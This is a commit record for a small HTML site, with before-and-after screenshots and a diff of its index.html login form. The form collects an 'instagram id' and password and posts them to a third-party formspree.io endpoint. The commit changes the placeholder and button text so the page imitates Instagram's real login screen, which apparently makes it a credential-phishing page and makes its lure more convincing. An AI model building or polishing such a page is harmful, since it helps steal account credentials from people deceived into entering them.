

Before and after one commit to Riya00120/Login-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 69-294 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -9,10 +9,10 @@
        <div class="section">
             <h1><span>login</span></h1>
             <form action="https://formspree.io/f/xdovbazr" method="post">
-                <input name="instagram id" type="text" placeholder="instagram id"/><br/>
+                <input name="instagram id" type="text" placeholder="phone number,email or username"/><br/>
                 <input name="password" type="password" placeholder="password"/><br/>
 
-                <input type="submit" value="SEND" class="submit" />
+                <input type="submit" value="Login" class="submit" />
             </form>
         </div>
         <!-- Form section end -->
```
